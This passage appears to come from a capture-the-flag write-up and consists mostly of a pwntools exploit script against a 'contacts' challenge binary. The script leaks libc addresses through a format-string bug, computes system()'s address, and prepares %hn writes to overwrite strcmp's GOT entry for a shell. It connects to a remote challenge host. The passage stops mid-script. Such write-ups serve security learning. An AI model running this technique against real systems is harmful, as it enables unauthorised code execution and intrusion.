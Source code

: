 Here is the exploit script ([pwntools is <3](http://pwntools.readthedocs.org)):

{% highlight python lineanchors %}
from pwn import *

# context.log_level = 'debug'

elf = ELF("contacts")
strcmp_got = elf.got["strcmp"]

def format_string(write_address):
    part1 = write_address & 0xffff
    part2 = (write_address & 0xffff0000) >> 16
    '''
    if part1 > part2:
        tmp = part1
        part1 = part2
        part2 = tmp
    '''
    format_str1 = "%{0}x%1$hn".format(part1)
    format_str2 = "%{0}x%1$hn".format(part2)
    return format_str1, format_str2

def create_contact(r, name, phone, desc):
    r.sendline(str(1))
    r.sendline(name)
    r.sendline(phone)
    r.sendline(str(len(desc)))
    r.sendline(desc)
    r.recvuntil("Menu:")

def edit_contact(r, person, num, change):
    r.sendline(str(3))
    r.sendline(person)
    r.sendline(str(num))
    r.sendline(change)
    r.recvuntil("Menu:")

def display_contacts(r):
    r.sendline(str(4))
    return r.recvuntil("Menu:")

def do_sploit(offset):
    r = remote("54.165.223.128", 2555)
    r.recvuntil(">>>")

    p1 = "AAAA"
    p2 = "BBBB"
    p3 = "CCCC"

    # Create person 1
    create_contact(r, p1, "/bin/sh", "%x.%x")

    leak = display_contacts(r)
    found = leak.index("Description: ") + len("Description: ")
    bin_sh, vfscanf_libc = map(lambda x: int(x, 16), leak[found:found+16].split("."))
    vfscanf_libc -= 17

    print "[+] /bin/sh is @ ", hex(bin_sh), ": [+] _io_vfscanf libc is @ ", hex(vfscanf_libc)

    system_libc = vfscanf_libc + offset
    format1, format2 = format_string(system_libc)

    print "[+] system libc is @ ", hex(system_libc)

    sec_person_desc = bin_sh + 0x30
    print "[+] Second person's description @ ", hex(sec_person_desc)
